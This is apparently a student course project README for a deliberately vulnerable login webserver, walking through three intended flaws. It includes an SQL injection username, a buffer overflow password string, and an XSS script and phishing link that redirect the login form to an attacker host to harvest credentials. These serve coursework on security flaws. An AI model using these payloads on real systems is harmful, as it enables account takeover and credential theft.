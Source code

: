 # Computer system security - Project 2  : the 3-flaws webserver
**Group #** : 5

**Members** :
- Laurent MINY
- Etienne DE JAMBLINNE DE MEUX

The whole project was made and tested on a Debian Jessie 8 x64 with Xampp installed and Firefox ESR 45.7.0

## Injection SQL
**User way** - The user enter the 'admin' username and enter his password 'thepassword' to login

**Hacker way** - The injection can be done by entering any password and the following username :
```sql
admin' or '1'='1' #
```

## Buffer Overflow
**User way** - The user enter the 'admin' username and enter his password 'thepassword' to login

**Hacker way** - The buffer overflow is done by rewriting the variable 'int pwd_matches' with garbage. Everything different over value 0 means "Password valid". So we can enter the username 'admin' (guessed) and the following as password (29 * 'h') :
```
hhhhhhhhhhhhhhhhhhhhhhhhhhhhh
```

**Remarks** :
- the file 'check-login' and 'buff3r-ov3rfl0w' must have the correct rights
- the file 'buff3r-ov3rfl0w' has to be compile for your system (more info in the source file 'buff3r-ov3rfl0w.c'). The one supplied is compiled on Debian Jessie 8 x64.

## XSS

The XSS (Cross-site scripting) is done by entering as username the following javascript (and any password) :

```javascript
<script>
document.addEventListener("DOMContentLoaded", function(event) { // To wait for DOM to be ready
  document.forms["form-login"].action="http://www.attacker-website.com"; // To send the login form to the website of an attacker.
});
</script>
```

If the attacker website is lminy.alwaysdata.net, with a little bit of social engineering, he could send an email to the admin by saying that there is a problem on [this page](http://localhost/homework2/?username=%3Cscript%3Edocument.addEventListener%28%22DOMContentLoaded%22%2Cfunction%28a%29{document.forms[%22form-login%22].action%3D%22http%3A%2F%2Flminy.alwaysdata.net%22}%29%3B%3C%2Fscript%3E&password=pwd). The user is tricked to enter again his login and password and the evil is done!

The attacker can then check its apache logs to know the username & password of the admin :

![Apache-logs](./lminy.alwaysdata.net.log.png?raw=true)
